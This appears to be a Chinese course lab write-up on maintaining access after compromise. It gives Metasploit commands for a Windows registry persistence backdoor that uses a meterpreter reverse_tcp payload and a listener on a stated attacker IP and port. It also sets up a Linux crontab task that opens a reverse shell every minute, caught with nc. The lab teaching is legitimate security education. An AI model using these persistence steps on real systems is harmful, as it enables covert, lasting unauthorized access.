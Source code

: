 ```yaml
---
title: 实验六--权限维持技术
slug: /course/NPTT/test6
sidebar_position: 6
createTime: 2025/04/23 11:53:14
permalink: /course/wv34hxwx/
---
```

## 实验目的

1、学会使用工具写入windows注册表后门，使用linux计划任务进行权限维持。

## 实验任务

1、在获取windows主机权限后，写入注册表后门进行权限维持，并检验注册表后门的效果

2、在linux系统中写入计划任务后门，并检验计划任务是否正常运行

## 实验步骤

## windows 权限维持 注册后门

在获得shell后background退出
选择注册表后门模块

```msf
use exploit/windows/local/persistence
```

然后选择好攻击模块设置参数，攻击机IP和端口，还有设置会话

```msf
set payload windows/x64/meterpreter/reverse_tcp  //这句可以不写，因为默认攻击模块就是这个
set lhost 192.168.100.133
set lport 4455
set session 1
run
```

![](https://img.crzliang.cn/img/202312071143184.png)
在靶机的对应目录下找到了vbs文件
目录：`C:\Users\win7\AppData\Local\Temp\`
![](https://img.crzliang.cn/img/202312071143185.png)

win+r打开运行输入regedit回车即可打开注册表
然后在 `KCU\Software\Microsoft\Windows\CurrentVersion\Run`下即可看到注册表也成功写入

![实验六_image_3](https://img.crzliang.cn/img/202312071143186.png)回到攻击机设置msf，让两个红框的内容一致，执行run之后，重启靶机，即可发现，在登录了靶机之后msf自动上线成功

```
use multi/handler
set lhost 192.168.100.133
set lport 4455
run
```

![实验六_image_4](https://img.crzliang.cn/img/202312071143187.png)

## linux权限维持   计划任务反弹shell

使用crontab命令进行反弹shell。crontab命令用于设置周期性被执行的指令。新建shell脚本，利用脚本进行反弹

（下面是以Ubuntu18.04为例）
1.服务开启
service cron start
2.编辑计划任务
crontab -e -u 用户名
3.查看计划任务
crontab -l -u 用户名
4.删除计划任务：
crontab -r -u 用户名

创建反弹shell脚本，vim  shell.sh
里面的 ip和端口号要和攻击机对应

![实验六_image_5](https://img.crzliang.cn/img/202312071143188.png)

保存后还要更改文件的权限

![实验六_image_6](https://img.crzliang.cn/img/202312071143189.png)
然后添加计划任务，需要root权限
vim /etc/crontab
设置反弹shell任务每分钟执行一次
要设置好文件的绝对路径

![实验六_image_7](https://img.crzliang.cn/img/202312071143190.png)

kali使用nc启动监听，即可监听到shell

![实验六_image_8](https://img.crzliang.cn/img/202312071143191.png)
